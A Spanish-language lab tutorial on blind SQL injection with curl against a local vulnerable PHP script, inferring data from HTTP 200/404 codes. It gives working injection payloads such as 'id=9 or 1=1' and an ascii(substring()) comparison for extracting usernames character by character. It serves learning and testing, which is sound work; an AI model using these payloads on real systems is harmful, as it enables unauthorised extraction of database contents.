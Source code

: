 # Uso de Curl para Inyecciones SQL a Ciegas

## Introducción

Este documento describe cómo utilizar `curl` para realizar [SQLi](SQLi.md) a ciegas, basándonos en los códigos de estado HTTP devueltos por el servidor. En un entorno real, este tipo de pruebas se llevarían a cabo sobre aplicaciones web vulnerables que no muestran directamente los resultados de las consultas [SQL](SQL.md), pero cuyos códigos de respuesta pueden revelar información útil.

El entorno de pruebas está basado en un servidor local con un script PHP vulnerable llamado `searchUsers.php`. Su funcionamiento es el siguiente:

1. **Conexión a la base de datos**: Se conecta a un servidor MySQL con las credenciales predefinidas.
2. **Recepción de parámetros**: Obtiene el valor de `id` a través de una solicitud GET.
3. **Falta de validación adecuada**: Usa `mysqli_real_escape_string` para sanitizar la entrada, pero **omite las comillas en la consulta SQL**, lo que permite inyecciones sin necesidad de cerrar la cadena con `'`.
4. **Consulta SQL vulnerable**: Ejecuta la consulta `SELECT username FROM users WHERE id = $id`, lo que permite inyectar condiciones SQL adicionales.
5. **Código de respuesta basado en los resultados**:
   - Si se encuentra un usuario con el `id` especificado, devuelve `HTTP/1.1 200 OK`.
   - Si no se encuentra un usuario, devuelve `HTTP/1.1 404 Not Found`.

Este comportamiento nos permite inferir información sobre la base de datos basándonos en los códigos de estado obtenidos tras enviar distintas consultas.

---

Para recoger información con **Curl**, podemos usar `-G --data-urlencode`, lo que nos permite realizar peticiones GET de manera más cómoda y organizada. En este caso, queremos emplearlo para realizar una inyección SQL a ciegas y observar los códigos de estado HTTP en las respuestas.

## Envío de Peticiones con Curl

El siguiente comando nos permite hacer una petición con un parámetro `id`:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=1"
```

Podemos modificar el valor de `id=N` para obtener diferentes respuestas y analizar el comportamiento de la aplicación.

Por ejemplo, si enviamos una consulta con una condición siempre verdadera:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or 1=1"
```

Obtendremos un *código de estado 200*, porque `1=1` es una condición siempre verdadera y la consulta devuelve una respuesta válida, incluso si el identificador `id=9` no existe.

### Ejemplo de Respuestas del Servidor

#### Petición con un ID válido:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=1'
```
**Respuesta:**
```
HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 19:06:14 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

#### Petición con un ID inexistente:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=5'
```
**Respuesta:**
```
HTTP/1.1 404 Not Found
Date: Sat, 29 Mar 2025 19:06:19 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

## Inyección SQL Basada en Comparación ASCII

Podemos utilizar funciones como `ascii()` y `substring()` para extraer información carácter por carácter. Por ejemplo, si queremos verificar si el primer carácter del nombre de usuario (`username`) es 'a' (`97` en ASCII), enviamos:

```bash
curl -s -I -X GET 'http://localhost/searchUsers.php' -G --data-urlencode 'id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)'
```

Si la respuesta es `200 OK`, significa que la condición es verdadera, lo que nos indica que el `username` en la posición `1,1` es 'a'.

## Automatización con Python

Este método nos permite desarrollar un **script en [Python](Python)** que realice múltiples peticiones, probando diferentes valores y analizando las respuestas. De esta manera, podemos extraer datos como nombres de usuario o contraseñas de la base de datos basándonos en los códigos de respuesta HTTP.

---

Este procedimiento es clave para realizar una extracción eficiente en ataques **SQLi a ciegas**, permitiéndonos descubrir información sin ver directamente el resultado de las consultas. 
